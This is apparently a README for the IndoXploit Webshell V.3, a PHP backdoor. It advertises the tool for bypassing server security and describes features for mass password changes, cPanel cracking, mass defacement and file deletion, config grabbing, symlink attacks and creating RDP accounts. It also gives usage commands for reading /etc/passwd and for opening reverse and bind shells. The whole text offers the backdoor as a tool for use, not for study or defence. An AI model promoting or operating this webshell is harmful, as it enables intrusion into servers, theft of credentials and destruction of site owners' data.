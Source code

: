 # IndoXploit Webshell V.3

---
IndoXploit webshell V.3 is an PHP based webshell or backdoor with unique and usefull features. This webshell is originally coded by **agussetyar** from **IndoXploit Coders Team**. IndoXploit Shell has been mentioned repeatedly by the coder that it will make you easily bypass server security. With this shell you can comfortably bypass the server firewall from most secure servers. It is one of the hacker's most preferred backdoor shell.

## Features
- Mass Password Change
- Fake Root
- Cpanel Crack
- Mass Deface/Delete File
- Zone-H Mass Submit

## How to Use
 - Read File
 usage: rf [filename]
 example: rf /etc/passwd

 - Spawn File/Tools 
 usage: spawn [name]

 [name]
- Adminer (adminer)
 - WebConsole (webconsole)
 - CGI Telnet 1 (cgitelnet1)
 - CGI Telnet 2 (cgitelnet2)
 - PHPINFO (phpinfo)

 example:
 spawn adminer
 spawn webconsole
 spawn cgitelnet1

- Jumping
usage: jumping

- Config Grabber
usage: idxconfig

 - Symlink 
 usage: symlink

 - Reverse Shell 
 [Back Connect]
 usage: rvr bc [IP] [PORT] [TYPE]
 example:
 ~~~
 rvr bc 127.0.0.1 1337 bash
 rvr bc 127.0.0.1 1337 perl
~~~

 [Bind Port]
 usage: rvr bp [PORT] [TYPE]
 example:
~~
 rvr bp 1337 perl
~~

 - KRDP - Create RDP Account (for windows server only) 
 usage: krdp

 - Logout From Shell
usage: logout

 - Kill Backdoor 
usage: killme
